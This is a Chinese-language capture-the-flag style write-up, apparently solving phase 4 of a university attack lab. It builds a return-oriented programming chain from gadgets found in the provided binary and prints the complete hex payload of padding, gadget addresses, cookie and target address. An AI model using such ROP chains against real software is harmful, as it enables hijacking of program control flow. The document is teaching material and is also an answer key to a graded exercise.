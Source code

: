 因为我们使用的是ROP攻击，所以不会在攻击代码中写入指令，我们只需要使用所给函数的某些子序列指令来进行操作。

观察任务所给的对照表，我们发现所给的对照指令非常少，只有`mov`，`pop`和一些位指令，不过我们可以使用表上没有的指令，只要所给的函数中有就行。
我们需要根据我们的需求以及这些指令来找出我们应该使用的指令，然后再在所给的函数中寻找包含这些指令的子序列指令。

所以解题步骤为：
1. 根据需求确定所要使用的指令，并在所给函数的汇编代码中寻找是否有含有所需指令的子序列组合指令。
   如果没有，则根据需求确定另一套指令，然后继续寻找，直至找到一个满足需求的可用组合指令，并记录该指令的起始地址。
2. 根据所使用的组合指令以及相关信息编写16进制的攻击代码，并用所提供的工具将其转换成字符串。
3. 将该字符串输入到程序中，进行攻击。

根据我们的需求，我们发现可以用以下指令来完成任务要求：
```bash
popq %rax # 该指令执行时的栈顶所储存的是cookie值
movl %eax,%edi
retq # 该指令执行时的栈顶所储存的是函数touch2的地址
```

然后我们在所给函数的汇编代码中寻找是否含有这些指令的组合指令，然后发现了函数`addval_219`的某组合指令可以完成第一条指令，函数`setval_426`的某组合指令可以完成其他的指令。
```bash
# 函数addval_219
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019ab
  4019ab:   58                      popq %rax
  4019ac:   90                      nop
  4019ad:   c3                      retq
```
```bash
# 函数setval_426
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019c6
  4019c6:   89 c7                   movl %eax,%edi
  4019c8:   90                      nop
  4019c9:   c3                      retq
```

以下是根据所使用的组合指令以及相关信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs4文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* the addr of gadget1 */ /* popq %rax; nop; retq */
fa 97 b9 59 00 00 00 00 /* the val of cookie */
c6 19 40 00 00 00 00 00 /* the addr of gadget2 */ /* movl %eax,%edi; nop; retq */
ec 17 40 00 00 00 00 00 /* the addr of touch2 */
```

以下通过第四关的界面：